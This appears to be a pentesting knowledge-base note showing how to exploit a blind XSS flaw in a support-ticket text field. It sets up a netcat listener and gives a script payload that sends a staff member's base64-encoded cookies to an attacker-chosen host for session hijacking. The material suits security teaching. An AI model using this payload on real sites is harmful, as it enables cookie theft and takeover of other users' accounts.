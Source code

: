 ```yaml
---
title: Practical XSS example
---
```

Let's say we want to exploit a [[cybersecurity/knowledge/pentesting/blind-xss]] vulnerability we've found. 

We have a Support Ticket system in which we may create tickets, which content `textarea` field is vulnerable to [[cybersecurity/knowledge/pentesting/XSS]]. 

We know we're able to run JavaScript code, but we don't have access to the content on our own, so we can't list anything. But we can expand the [[cybersecurity/knowledge/glossary/payload]] to  send sensitive content to our own server using [[cybersecurity/knowledge/tools/netcat]]. 

Because we're dealing with Support Ticket system, it's reasonable to assume that a staff member will also view this ticket which we could get to execute JavaScript. 

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. 

To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information:

```shell-session
$ nc -nlvp 9001
```

Now that we've set up the method of receiving the exfiltrated information, we build the payload:

`</textarea><script>fetch('http://{URL_OR_IP:PORT}?cookie=' + btoa(document.cookie) );</script>`

> [!tip] `btoa()` encodes the victim's cookies with base64.

Once the user opens a ticket, we can decode the cookies.